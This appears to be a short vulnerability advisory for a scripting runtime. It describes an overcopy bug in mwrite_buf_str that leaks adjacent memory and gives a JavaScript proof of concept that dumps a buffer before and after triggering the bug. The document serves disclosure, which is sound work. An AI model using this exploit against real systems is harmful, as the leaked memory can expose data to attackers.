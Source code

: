 # VID 011: mwrite_buf_str overcopy

### Description

A attacker might be able to pass a pointer with a big allocation size to `mwrite_buf_str`, a string but a larger size than the string which causes the methode to overcopy data and write it to the pointer which the attacker can backread.

(patch tommorow)

Introduced in: n/a

fixed in: n/a

Credit: [@seanistethered](https://github.com/seanistethered)

---

### Exploitation

```js
// constant for arbitary large overcopies
const size = 500;

// allocate the pointer it self
let ptr = memory.malloc(size);

// helper functiom to dump memory values to the console
function dump()
{
	let buf = "";
	for(let i = 0; i < size; i++)
	{
		buf += " "  + memory.mread8(ptr + i).toString();
	}
	buf += "\n\n";
	io.write(STDOUT_FILENO, buf, buf.length);
}

// dump the memory as the before view
dump();

// exploit the overcopy vulnerability
memory.mwrite_buf_str(ptr, size, "");

// now dump it again
dump();
```

